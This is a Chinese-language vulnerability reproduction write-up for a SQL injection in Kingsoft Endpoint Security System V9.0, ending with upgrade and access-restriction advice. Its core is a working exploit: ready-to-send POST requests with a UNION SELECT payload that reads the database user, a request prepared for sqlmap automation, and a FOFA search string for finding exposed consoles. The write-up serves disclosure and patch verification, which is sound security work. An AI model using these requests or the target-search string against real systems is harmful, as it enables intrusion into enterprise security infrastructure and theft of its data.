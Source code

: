 
# 金山终端安全系统 V9.0 SQL 注入漏洞复现

### 0x01 产品简介

     金山终端安全系统是一款为企业提供终端防护的安全产品，针对恶意软件、病毒和外部攻击提供防范措施，帮助维护企业数据和网络。

### 0x02 漏洞概述

    金山终端安全系统 V9.0 /inter/update\_software\_info\_v2.php 页面存在[sql 注入漏洞](https://so.csdn.net/so/search?q=sql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，该漏洞是由于金山终端安全系统未对用户的输入进行有效的过滤，直接将其拼接进了 SQL 查询语句中，导致系统出现 SQL 注入漏洞。

### 0x03 影响范围

 金山终端安全系统<V9.SP1.E1008

### 0x04 复现环境

FOFA：title=="用户登录 - 金山终端安全系统 V9.0Web 控制台"

![](assets/1698896208-cc29352e23e52fc988b800d3c8c23af2.png)

### 0x05 漏洞复现

PoC

```cobol
POST /inter/update_software_info_v2.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

type=-1+UNION+SELECT+1,user(),3,4,5,6,7,8--&key=&pageCount=0&curPage=
```

查询当前用户

![](assets/1698896208-5f10298fbb7a1d2c77a3afed656eb5e6.png)

延时注入

![](assets/1698896208-b463c7f3194636c602d4b9a813479e2a.png)

Sqlmap 验证 

数据包放 txt 里面

```cobol
POST /inter/update_software_info_v2.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

type=-100*&key=&pageCount=0&curPage=
```

![](assets/1698896208-3fd0e5ee810c1cd75b4acfbb95f1dce7.png)

### 0x06 修复建议 

**升级修复方案**

官方已经推出了新版本修复了漏洞。建议所有受影响的用户尽快访问官方网站，更新版本至新版本。https://www.ejinshan.net/lywz/index

**临时缓解方案**

通过网络 ACL 策略限制访问来源，例如只允许来自特定 IP 地址或地址段的访问请求。另外作为安全建议，不要将集权设备的 Web 管理控制台开放在互联网上，并且仅允许可信 IP 进行访问。
